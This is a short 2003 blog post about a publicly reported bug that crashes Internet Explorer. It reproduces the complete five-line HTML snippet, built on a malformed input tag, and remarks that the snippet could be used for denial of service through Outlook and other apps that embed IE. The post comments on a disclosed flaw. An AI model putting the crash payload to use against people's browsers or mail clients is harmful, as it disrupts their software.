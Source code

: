 ﻿---
layout: post
title: "Simple HTML Page Crashes IE"
comments: false
date: 2003-05-03 20:56:00
categories:
 - Technology
subtext-id: be5a1ab3-3e84-487c-9be7-fe6f6adc8d3f
alias: /blog/Simple-HTML-Page-Crashes-IE.aspx
---


This is interesting. Create a text file and put the following in it:
    
    <html>  
    <form>  
    <input type crash>  
    </form>  
    </html>

Save it as crash.html and open it in IE. BOOM! How the hell did something like this slip though QA? As the advisory mentions, since IE gets embedded in a number of apps (Outlook particularly), this could be used as a DOS attack.
